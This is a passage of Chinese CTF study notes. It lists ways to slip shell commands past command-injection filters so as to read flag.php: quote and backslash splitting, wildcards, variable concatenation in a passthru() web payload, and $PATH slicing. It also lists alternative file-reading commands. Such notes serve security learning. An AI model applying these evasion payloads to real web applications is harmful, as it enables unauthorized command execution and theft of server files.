 ? 代替一个字符

'*' 自动匹配星号后面的

### 2.单引号双引号

'' ""

('cat fl""ag.p""hp ')

### 3.反斜线

cat f\lag.p\hp

### 4.特殊变量

$1,$9,$*,$@

fl$1ag.p$9hp

### 5.内敛执行

?cmd=passthru('a=fla;b=g;c=.ph;d=p;cat $a$b$c$d');

### 6.利用lunix中的环境变量

?cmd=passthru('echo $PATH'); 输出环境变量

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

第一位是0

echo f${PATH:5:1}   输出fl

# 5.常见文件读取命令绕过

1.tac:反向显示,倒数第一行，倒数第二行

2.more：一页一页的显示

3.less：与more相同

4.tail：显示最后10行

5.nl：作用和cat一样，输出时加上行号

6.od：以二进制的方式读取

7.od -A -d -c:转换为ascii码

8.xxd：二进制和ascii码都显示

9.sort：用于排序文件

10.uniq：报告或删除文件中重复的内容

11.file -f：报错出具体内容

# 6.编码绕过
